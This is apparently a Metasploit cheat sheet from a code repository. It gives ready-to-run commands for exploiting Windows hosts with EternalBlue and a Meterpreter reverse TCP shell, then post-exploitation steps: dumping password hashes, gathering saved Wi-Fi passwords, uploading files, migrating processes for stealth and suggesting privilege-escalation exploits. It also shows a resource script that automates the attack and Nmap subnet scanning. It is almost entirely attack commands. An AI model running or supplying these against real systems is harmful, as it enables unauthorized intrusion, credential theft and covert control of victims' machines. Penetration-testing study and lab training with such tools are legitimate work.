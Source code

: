 
---

## 1. Before Getting Meterpreter Shell — Setup and Exploit Launch

Start Metasploit Console

```
msfconsole
````

Select the exploit module (example: EternalBlue SMB)

```
use exploit/windows/smb/ms17_010_eternalblue
````

Set the target IP address

```
set RHOSTS 192.168.1.10
```

Set your local IP for the reverse shell callback

```
set LHOST 192.168.1.5
```

Choose a payload (64-bit Windows Meterpreter reverse TCP)

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Optionally set a port (default 4444)

```
set LPORT 4444
```

Check exploit options

```
show options
```

Launch the exploit

```
exploit
```

## 2. After Getting a Meterpreter Shell

Meterpreter prompt appears:

```
meterpreter >
```

Get system info

```
sysinfo
```

Capture screenshot

```
screenshot
````

Dump password hashes

```
hashdump
```

Upload a file to target

```
upload /path/to/local/file.exe C:\\Windows\\Temp\\file.exe
```

Execute a command on target shell

```
execute -f cmd.exe -c
```

Dump saved Wi-Fi passwords (if admin)

```
run post/windows/gather/wifi_passwords
```

Migrate to another process for stealth

```
ps       # list processes
```

```
migrate <pid> 
```

Get a command shell

```
shell
```

Background the session (return to msfconsole)

```
background
```

## 3. Automating Meterpreter with Resource Scripts

Save repeated commands in a `.rc` script:

```
# example.rc
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 4444
exploit
```

Run with:
```
msfconsole -r example.rc
```

If you already have a Meterpreter shell on the target system, you can use the

```
multi/recon/local_exploit_suggester
```

module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

###  Target Network using Metasploit

We need to configure metasploit db

```
service postgresql start  
```

```
msfconsole  
```

```
db_status  
```

```  
msfdb init  
```

```  
service postgresql restart  
```

```
db_status
```

### Nmap

Here, we are scanning the whole subnet 10.10.1.0/24 for active hosts.

```
nmap -Pn -sS -A -oX Test 10.10.1.0/24  
```

```
db_import Test
```

Type **hosts** and hit Enter to view the list of active hosts along with their MAC addresses, OS names, etc. Type **services** or **db_services** and hit Enter to receive a list of the services running on the active hosts.
